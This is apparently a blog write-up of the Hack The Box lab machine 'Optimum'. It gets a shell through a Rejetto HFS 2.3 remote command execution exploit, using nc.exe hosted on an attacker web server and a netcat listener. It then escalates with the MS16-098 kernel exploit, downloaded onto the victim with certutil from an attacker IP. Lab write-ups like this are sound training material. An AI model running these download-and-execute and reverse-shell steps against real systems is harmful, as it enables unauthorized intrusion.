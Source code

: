 

---
title: Optimum
date: 2021-01-25
excerpt: "'Optimum' is an easy rated box on Hack the Box. We'll exploit a vulnerable version of HttpFileServer for access and use Windows Exploit Suggester to find a kernal exploit for privesc"
classes: wide
categories: HackTheBox
tags:
  - htb
  - windows
  - HttpFileServer
  - windows_exploit_suggester
  - kernal
---


![img](/assets/images/htb/optimum/0.png)

### Port Scanning and General Enumeration (Nmap)
* Reading/Resources
  * [Nmap manual](https://nmap.org/book/man.html)

Initial scan showed that only port 80 (HTTP) is available


![img](/assets/images/htb/optimum/1.png)


![img](/assets/images/htb/optimum/2.png)

Clicking the link takes us to www.rejetto.com

**What we know:**
- It's running HttpFileServer 2.3
- The vendor is rejetto

---

### Access (searchsploit, Rejetto HFS RCE)
* Reading/Resources
  * [searchsploit](https://www.exploit-db.com/searchsploit)
  * [RCE](https://www.exploit-db.com/exploits/39161)

Let's see if there's anything on **searchsploit** for `rejetto` or `http file server 2.3`

`searchsploit rejetto`


![img](/assets/images/htb/optimum/3.png)

Let's grab `Remote Command Execution (2)`

`searchsploit -m 39161.py`

`-m` allows us to copy the exploit into our current working directory.

Let's read a bit about what it does

https://www.exploit-db.com/exploits/39161

```
#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!
```

So we need to be hosting `nc.exe` on port `80`. That's easy enough. On kali, windows binaries are stored at `/usr/share/windows-binaries`


![img](/assets/images/htb/optimum/4.png)

Now we're going to need a few tabs: 
- On one, our python server (`python3 -m http.server 80`) where `nc.exe` is located
- On another, a listener waiting to catch our shell (`nc -lvnp 4444`)
- And finally, one to fire the exploit

This is what mine looked like after the exploit completed:


![img](/assets/images/htb/optimum/5.png)


![img](/assets/images/htb/optimum/6.png)


---

### Privesc (Windows Exploit Suggester, MS16-098)
* Reading/Resources
  * [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
  * [MS16-098](https://www.exploit-db.com/exploits/41020)

I ran `winPEAS` on the machine but didn't come back with much so I assume that maybe we're looking at a kernal exploit. Let's try **Windows Exploit Suggester**

Note: for **Windows Exploit Suggester** to work we need to install a specific version of `xlrd`:

`pip2 install --user xlrd==1.1.0`

There's a couple things we need to do before we can run this. 

- First, run it with the `--update` switch. That will write an `xls` file for us to use.
- Second, on the victim machine, use the command `systeminfo` and copy all of the output and save it to a file. I'll name my `systeminfo.txt`
- Now run it:

`python windows-exploit-suggester.py -database 2021-01-25-mssb.xls -systeminfo systeminfo.txt`


![img](/assets/images/htb/optimum/7.png)

Let's look at [MS16-098](https://www.exploit-db.com/exploits/41020). There's a precompiled binary for us to grab on the github page. Let's grab that and transfer it over to the victim machine.

`certutil -urlcache -f Http://10.10.14.18:8000/ms16098.exe ms16098.exe`


![img](/assets/images/htb/optimum/8.png)

Give it a run!


![img](/assets/images/htb/optimum/9.png)


![img](/assets/images/htb/optimum/10.png)
